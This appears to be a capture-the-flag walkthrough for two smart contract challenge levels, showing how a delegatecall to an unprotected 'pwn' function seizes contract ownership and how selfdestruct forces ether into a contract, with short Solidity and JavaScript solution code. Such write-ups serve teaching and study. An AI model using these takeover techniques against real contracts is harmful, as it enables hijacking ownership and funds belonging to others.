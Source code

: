 ## delegation

Delegate calls executes functions of other contract in the context of the caller contract. It's like borrowing logic for execution. If that logic changes the storage, it's changing the storage of the caller contract.

In this level both `Delegation` and `Delegate` have `owner` in their first storage slot, `pwn` in delegate is a public function with no access control. Calling `pwn` from Delegation using delegate will change the storage slot of Delegation using the execution logic Delegate (no access control).

```solidity
let delegate = await Delegate.attach(INSTANCE_ADDRESS);
const tx = await delegate.pwn();
await tx.wait();
```
---

## force

Goal is to force some ether in the contract. As you can see the contract has no `receive` implmeneted, we can not send the ether directly. Here comes the interesting part, to send eth to a contract adress there are three ways
- constructor while deploying the contract
- send via transfer or call if receive is implemented
- selfdestruct another contract with the beneficiary as the contract you'd like to force

`selfdestruct` doesn't check if the receive is implemented or not. Contract will have to accept the ether. We'll use this one

Deploy a new contract and destruct it with the beneficiary as the instance address
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceHack {
    constructor() payable {}
    function destruct(address payable forceAddress) public {
        selfdestruct(forceAddress);
    }
}
```

in the javascript

```javascript
const force = Force.attach(INSTANCE_ADDRESS);
const forceHack = await ForceHack.deploy({ value: 1 });
await forceHack.deployed()
console.log(await ethers.provider.getBalance(forceHack.address));

const tx = await forceHack.destruct(force.address);
await tx.wait();
console.log(await ethers.provider.getBalance(force.address));
```

---